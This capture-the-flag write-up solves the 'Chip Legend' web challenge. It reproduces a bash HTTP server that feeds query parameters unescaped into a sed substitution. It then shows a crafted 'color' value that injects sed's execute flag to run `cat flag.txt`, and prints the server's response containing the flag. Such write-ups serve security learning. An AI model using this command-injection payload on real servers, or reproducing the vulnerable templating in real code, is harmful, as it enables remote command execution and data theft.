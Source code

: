 # Chip Legend

## RECON

Information available:
- http://REDACTED:9003
- ./flag.txt

Here is the app:

![alt text](img/site.png)

If we click on a chip

![alt text](img/black.png)

So we get the image and the value on the chip
Lets take a look at the source code shall we

```html

<html>
  <head>
    <title> 
      Chip legend
    </title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.3/dist/css/bootstrap.min.css">
    <style>
       body {
          background: radial-gradient(#B3B1C3 , #47464D);
       }

      #box {
          position: absolute;
          left: 50%; /* relative to nearest positioned ancestor or body element */
          top: 50%; /*  relative to nearest positioned ancestor or body element */
          transform: translate(-50%, -50%); /* relative to element's height & width */
        }
    </style>
  </head>
  <body>
      <center id="box">

        <h1> Chip Legend </h1>
        <a href="/chip.html?value=5&color=black"> 
          IMG en base64
        </a>

        <a href="/chip.html?value=10&color=red"> 
            IMG en base64
        </a>


        <a href="/chip.html?value=20&color=orange"> 
            IMG en base64
        </a>

        <a href="/chip.html?value=100&color=blue"> 
            IMG en base64
        </a>

      </center>
    <!-- p> Powered by : <a href="/bttpd.sh"> basHTTPd </a> | A unix approach to the web. <p> -->
  </body>
</html>
```
I notice 2 things
- Parameters `value` and `color` are sent to `chip.html`
- Powered by : <a href="/bttpd.sh"> basHTTPd </a> | A unix approach to the web.

I try to visit $TARGET/bttpd.sh

Totally suprised, the source code of the application

```bash
#!/usr/bin/bash

# basHTTPd !
# UnIx PoWeR FoR ThE WeB
#
read -rd '' RESPONSE << EOF
HTTP/1.0 :code:
Date: $(date)
Server: bttpd/0.1
Content-Type: text; charset=ISO-8859-1
Content-Length: :length:
Connection: close


EOF

WWW="$PWD/www"
ROOT_FILE="$PWD/www/index.html"


serve ( ) {
  ROUTE=$1
  ARGS=$2

  local FILE=""
  local CONTENT=""
  local LENGTH=0

  if [[ "${ROUTE}" == "/" ]]; then
    FILE="${ROOT_FILE}"
  elif [[ "${ROUTE}" == "/bttpd.sh" ]]; then
    FILE="${0}"
  else
    FILE="${WWW}${ROUTE}"
  fi

  if [[ -f "${FILE}" ]]; then

    CONTENT="$(cat "${FILE}")"

    ARGS=$(echo "${ARGS}" | tr '&' ' ')
    for ARG in $ARGS; do
        NAME=$(echo "${ARG}" | cut -d '=' -f 1)
        VAL=$(echo "${ARG}" | cut -d '=' -f 2)
        VAL=$(echo "${VAL}" | tr -d '<' | tr -d '>' | tr -d '"' | tr -d "'") # XSS protection
        CONTENT=$(echo "${CONTENT}" | sed s@:$NAME:@$VAL@g )
    done

    LENGTH="${#CONTENT}"
    [[ "${FILE}" == "${0}" ]] && LENGTH=$((LENGTH-4))

    echo -en "${RESPONSE}" | sed 's/:code:/200 OK/' | sed "s/:length:/${LENGTH}/"
    echo -en "${CONTENT}"

  else
    echo -en "${RESPONSE}" | sed 's/:code:/404 NOT FOUND/' | sed "s/:length:/0/"
  fi

}


handle ( ) {
  read -r REQUEST  

  URI=$(echo "${REQUEST}" | cut -d ' ' -f 2)
  if [[ "${URI}" =~ .*\.\..* ]]; then
    echo -en "${RESPONSE}" | sed 's/:code:/400 BAD REQUEST/' | sed 's/:length:/0/'
    return
  fi

  if [[ "${URI}" == *'?'* ]]; then
    ARGS=$(echo "${URI}"| cut -d '?' -f 2)
  fi

  ROUTE=$(echo "${URI}" | cut -d '?' -f 1)
  if [[ "${ROUTE}" =~ ^/[a-z0-9A-Z/\.]*$ ]]; then
    serve "${ROUTE}" "${ARGS}"
  else
    echo -en "${RESPONSE}" | sed 's/:code:/400 BAD REQUEST/' | sed 's/:length:/0/'
  fi
}

handle
```

# Exploitation

In the end i understand that there is 2 place holder value `:value` and `:color:` and the templating is done with `sed`

Lets get to the interesting part
```bash
    ARGS=$(echo "${ARGS}" | tr '&' ' ')
    for ARG in $ARGS; do
        NAME=$(echo "${ARG}" | cut -d '=' -f 1)
        VAL=$(echo "${ARG}" | cut -d '=' -f 2)
        VAL=$(echo "${VAL}" | tr -d '<' | tr -d '>' | tr -d '"' | tr -d "'") # XSS protection
        CONTENT=$(echo "${CONTENT}" | sed s@:$NAME:@$VAL@g )
    done
```

The char `>` `<` `"` `'` are removed

What i found suspicious was
```bash
CONTENT=$(echo "${CONTENT}" | sed s@:$NAME:@$VAL@g )
```
`s@:$NAME:@$VAL@g`
![alt text](img/sus.png)

Then lets try to forge a value of color that will make the line look like
`CONTENT=$(echo "${CONTENT}" | sed s@:color:@cat flag.txt@e) #@g )`

Running the server locally I end up with this expression  `cat\x20flag.txt@e;`

```
HTTP/1.0 200 OK
Date: Thu Oct 24 04:31:33 PM UTC 2024
Server: bttpd/0.1
Content-Type: text; charset=ISO-8859-1
Content-Length: 292443
Connection: close

<html>
  <head>
    <title> 
FINCTF-0d81b352888d9ca8ed044551c39af9
    </title>
```
![alt text](img/solved.png)

And rawr does the dinosaur.
